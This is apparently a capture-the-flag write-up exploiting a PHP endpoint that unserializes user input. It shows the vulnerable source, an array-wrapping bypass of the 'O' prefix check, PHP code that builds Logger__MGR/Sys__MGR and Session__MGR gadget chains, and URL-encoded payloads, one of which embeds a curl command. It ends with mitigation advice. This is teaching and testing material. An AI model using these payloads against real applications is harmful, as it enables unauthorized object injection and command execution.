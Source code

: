 During reconnaissance **/robots.txt** was found with **/supersecret.php** endpoint  

```
$deser=$_GET['deser'];
if($deser){
  if(substr($deser, 0,1)=="O"){
    die('objects prohinited!');
  }else{
    var_dump(unserialize($deser));
  }
}else{
  highlight_file(__FILE__);
}
```

By passing seriliazed object through deser parameter it is possible to make gadget chain .  

**Example of serialized object**  
> O:8:"Sys__MGR":2:{s:3:"cmd";s:27:"curl http://127.0.0.1:1001/";s:7:"message";s:5:"hello";}  

But since our string can't start with O, we can't insert it directly, but this can easily be done by wrapping it in array.  

**PoC:**  

**To exploit Sys_MGR()**  

Correct constructed payload was achieved by following PHP object chain:  
```
$sys = new Sys__MGR();
$ref = new refClass($sys);
$prop = $ref->getProperty('cmd');
$prop->setAccessible(true);
$prop->setValue($sys, 'id');

$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger); 

echo urlencode(serialize($payload));
```

**As output we got**  
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A%22Logger__MGR%22%3A1%3A%7Bs%3A6%3A%22logger%22%3BO%3A8%3A%22Sys__MGR%22%3A2%3A%7Bs%3A13%3A%22%00Sys__MGR%00cmd%22%3Bs%3A27%3A%22curl+http%3A%2F%2F127.0.0.1%3A1001%2F%22%3Bs%3A7%3A%22message%22%3BN%3B%7D%7D%7D  
![Sys_MGR](../images/sys.jpg)

Unfortunately, we were unable to obtain RCE because in 7.0-8.0 versions of PHP __wakeup() calls every time deserialization, and immideatly throws **Exception**. However even though __wakeup() threw an exception, we observed that echo 'hellow' (from close()) still appeared in the output — suggesting that Logger__MGR::__destruct() was triggered, and it attempted to call $logger->close().  

Since Sys__MGR::__wakeup() failed, the object was likely partially constructed, but enough to trigger close() — and echo 'hellow' worked, even though system($cmd) never ran.  

**To exploit Session__MGR()**  

But we have second class with some flag (I guess CTF task).  
Same logic goes here, but instead of creating Sys__MGR object we create Session_MGR object  

```
$sys = new Session__MGR();


$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger);

echo urlencode(serialize($payload));
```
**Final payload:**  
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A"Logger__MGR"%3A1%3A%7Bs%3A6%3A"logger"%3BO%3A12%3A"Session__MGR"%3A1%3A%7Bs%3A17%3A"%00Session__MGR%00key"%3Bs%3A4%3A"flag"%3B%7D%7D%7D  

![Logger](../images/logger.jpg)



**Mitigation**  
In order to avoid such vulnerabilities, **never unserialize user input** or use of **allowed_classes**  
 

